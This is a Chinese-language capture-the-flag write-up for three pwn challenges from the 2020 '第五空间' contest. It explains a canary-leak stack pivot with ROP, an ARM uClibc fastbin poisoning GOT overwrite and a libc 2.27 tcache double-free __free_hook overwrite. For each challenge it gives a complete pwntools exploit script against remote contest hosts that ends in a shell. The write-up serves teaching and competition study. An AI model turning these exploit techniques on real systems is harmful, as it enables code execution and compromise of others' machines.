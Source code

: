 ```yaml
---
title: 第五空间 2020 Pwn
date: 2020-06-25 00:00:00
categories:
- CTF/Pwn
tags: 栈溢出 堆溢出 UAF
---
```


三道题的题目附件：[5space_attachment.zip](https://xuanxuanblingbling.github.io/assets/pwn/5space_attachment.zip)

## twice

带canary的栈溢出，可以通过puts泄露栈溢出并且出题人会修好溢出泄露时对canary最后一个0字节的破坏。第二次输入时即可栈溢出劫持返回地址，但是因为溢出长度受限无法直接ROP。通过劫持到leave上，进行栈迁移，到输入的缓冲区上进而完成ROP。在ROP中，首先通过puts泄露GOT表进而泄露libc，然后将程序控制流返回到_start上进而继续栈溢出即可劫持控制流到one_gadget上，进而完成控制流劫持。

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
io = remote("121.36.59.116",9999)
uu64    = lambda data   :u64(data.ljust(8, b'\0'))

# leak canary and stack
io.recvuntil(">");io.send("a"*89);io.recv(89)
canary = uu64('\x00'+io.recv(7))
stack = uu64(io.recv(6))

# stack overflow to leak libc and go back _start
io.recvuntil(">")
payload = p64(0)
payload += p64(0x400923)        # pop rdi
payload += p64(0x601020)        # puts_got
payload += p64(0x4005C0)        # puts
payload += p64(0x400630)        # _start
payload =  payload.ljust(88)    # full the buffer
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(0x400879)        # leave to hijack rsp to buffer addr
io.send(payload)
io.recvline()
libc = uu64(io.recv(6))-0x6f690
log.warn(hex(libc))

# pass the first input
io.recvuntil(">");io.send("a");io.recvuntil(">")

#stack overflow to one gadget
payload = ""
payload = payload.ljust(88)     # fill stack with NULL to satisfy one_gadget
payload += p64(canary)          # canary
payload += p64(stack-112)       # buffer addr
payload += p64(libc+0x4526a)    # one_gadget
io.send(payload)

io.interactive()
```

## pwnme

arm的堆溢出，使用的是uclibc，在bss段构造伪堆块并且通过堆溢出将fastbin的fd指向伪堆块，即可将堆块分配到bss段，通过修改bss段的指针数据，即可泄露libc并且修改got表，最终通过修改free的got表为system，然后free掉一个内容是$0的chunk即可getshell。比赛中并没有搭好环境，以下exp为盲测结果，其中的偏移并不知道为何。

```python
from pwn import *
context(log_level='debug',os='linux',arch='arm')
io = remote('121.36.58.215', 1337)
libc = ELF('./libuClibc-1.0.34.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
show        = lambda                     :  (sla(">>> ","1"))
add         = lambda len,data            :  (sla(">>> ","2"),sla("Length:",str(len)),sla("Tag:",data))
edit        = lambda index,len,data      :  (sla(">>> ","3"),sla("Index:",str(index)),sla("Length:",str(len)),sla("Tag:",data))
delete      = lambda index               :  (sla(">>> ","4"),sla("Tag:",str(index)))

# just try and don't know why to -2
fd = 0x2106c - 8 - 2  
free_got = 0x00021038

# prepare chunks
add(0x40,'a')
add(0x40,'a')
add(0x40,'a')
add(0x40,'$0\x00')

# use heap overflow to modify the fd of fastbin chunk to bss
delete(1)
edit(0,0x88,'a'*0x44+p32(0x48)+p32(fd))

# get the fake chunk and modify bss data to free_got
# just try and don't know why to 34+2
add(0x40,'a')
add(0x40,'a'*(34+2) + p32(free_got))

# print free_got to leak libc
show();io.recvuntil('0 : ')
leak = u32(io.recv(4))
log.success(hex(leak))
libc.address = leak - libc.symbols['free']

# modify free_got to system
edit(0,4,p32(libc.symbols['system']))

# trigger system($0)
delete(3)
io.interactive()
```

## of

libc2.27，有tcache，原题直接给了c源码，在源码中，堆块的使用、申请与释放存在着cookie的保护，使得虽然在释放后存在悬空指针，但是并无法触发UAF或者double free。但是在远程环境中，cookie似乎没有起到任何作用，所以直接通过基本的堆利用的手段，UAF泄露unsorted bin地址以及tcache dup完成泄露libc基址以及任意地址写，最后通过改写__free_hook，完成控制流劫持进而getshell。

```python
from pwn import *
context(log_level='debug',os='linux',arch='amd64')
io = remote('121.36.74.70', 9999)
libc = ELF('./libc-2.27.so')

sla         = lambda delim,data          :  (io.sendlineafter(delim, data))
add         = lambda index               :  (sla("choice:","1"),sla("Index: ",str(index)))
edit        = lambda index,data          :  (sla("choice:","2"),sla("Index: ",str(index)),sla("Content: ",str(data)))
show        = lambda index               :  (sla("choice:","3"),sla("Index: ",str(index)))
delete      = lambda index               :  (sla("choice:","4"),sla("Index: ",str(index)))
uu64        = lambda data                :u64(data.ljust(8, b'\0'))

# use unsorted bin to leak libc
for i in range(8): add(i)
for i in range(7): delete(i+1)
delete(0);show(0)
io.recvuntil('Content: ')
libc.address = uu64(io.recv(6))-0x3ebca0

# empty tcache
for i in range(9): add(i)

# use tcache dup to aaw
delete(0)
delete(0)
add(0);edit(0,p64(libc.symbols['__free_hook']))
add(1);
add(2);edit(2,p64(libc.symbols['system']))

# use free(3) trigger system($0)
edit(3,'$0\x00');delete(3)
io.interactive()
```